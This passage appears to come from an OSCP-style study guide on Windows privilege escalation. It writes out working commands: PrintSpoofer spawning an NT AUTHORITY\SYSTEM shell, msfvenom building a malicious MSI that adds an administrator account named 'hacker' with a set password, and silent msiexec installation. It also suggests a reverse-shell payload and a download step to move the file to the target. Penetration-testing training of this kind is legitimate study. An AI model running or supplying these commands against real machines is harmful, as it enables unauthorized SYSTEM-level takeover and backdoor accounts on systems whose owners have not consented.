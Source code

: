 ```{=html}
<!-- -->
```
-   PrintSpoofer.exe -i -c cmd

    **Explanation:** The `-i` flag tells it to interactively spawn a
    process, and `-c cmd` means launch `cmd.exe` as the elevated
    process. Running this will grant a new shell as NT
    AUTHORITY\\SYSTEM[\[24\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=Windows%20tokens%20represent%20security%20context,and%20can%20sometimes%20be%20impersonated)[\[35\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=Use%20tools%20like%20JuicyPotato%2C%20PrintSpoofer%2C,c%20cmd).
    It\'s near-instant. JuicyPotato works similarly but requires
    specifying CLSIDs; PrintSpoofer is simpler and works on many newer
    systems (up to when RPC Mapper was closed). If PrintSpoofer doesn't
    work (maybe the Spooler service is off), try **RoguePotato** or
    **SweetPotato** depending on OS version. Each of these tools might
    have slightly different usage, but they all result in a SYSTEM
    shell. The bottom line: with impersonation privileges, these tools
    abuse a privileged COM service to get
    SYSTEM[\[24\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=Windows%20tokens%20represent%20security%20context,and%20can%20sometimes%20be%20impersonated).
    This is a *must-know* technique for OSCP.

```{=html}
<!-- -->
```
-   **AlwaysInstallElevated: MSI Install** -- *Scenario:* Both registry
    values for AlwaysInstallElevated are 1 (enabled).\
    **Commands:**\
    On Kali, generate a malicious MSI. For example, to add a new local
    admin user:

```{=html}
<!-- -->
```
-   msfvenom -p windows/adduser USER=hacker PASS=Passw0rd! -f msi-nouac -o evil.msi

    This payload will create user \"hacker\" with password \"Passw0rd!\"
    and add to Administrators group. Transfer `evil.msi` to target (e.g.
    via `powershell -c (New-Object Net.WebClient).DownloadFile(...)`).
    Then on target, run:

        msiexec /quiet /qn /i C:\path\to\evil.msi

    **Explanation:** `msiexec` will execute the MSI with elevated
    privileges[\[48\]](https://medium.com/@persecure/windows-privilege-escalation-alwaysinstallelevated-8e83f7d1bbc6#:~:text=To%20establish%20a%20reverse%20shell,can%20accomplish%20this%20using%20msfvenom)[\[49\]](https://medium.com/@persecure/windows-privilege-escalation-alwaysinstallelevated-8e83f7d1bbc6#:~:text=your%20attacking%20machine,to%20establish%20the%20desired%20connection).
    The flags `/quiet /qn` make it silent. After it finishes, the new
    user is created as an admin. You can then `runas /user:hacker cmd`
    (enter Passw0rd!) to open an Administrator shell, or use that
    account to RDP if allowed. Alternatively, you could have the MSI
    launch a reverse shell to you (using a `shell_reverse_tcp` payload
    as shown in the Medium
    article)[\[50\]](https://medium.com/@persecure/windows-privilege-escalation-alwaysinstallelevated-8e83f7d1bbc6#:~:text=msfvenom%20,o%20evil.msi),
    which might be quicker. AlwaysInstallElevated essentially lets *any*
    user run an installer as
    SYSTEM[\[31\]](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/#:~:text=%28AlwaysInstallElevated%29%20www,be%20installed%20with%20administrative%20privileges),
    so it\'s a direct path. Just note: cleaning up might involve
    removing the created user after.
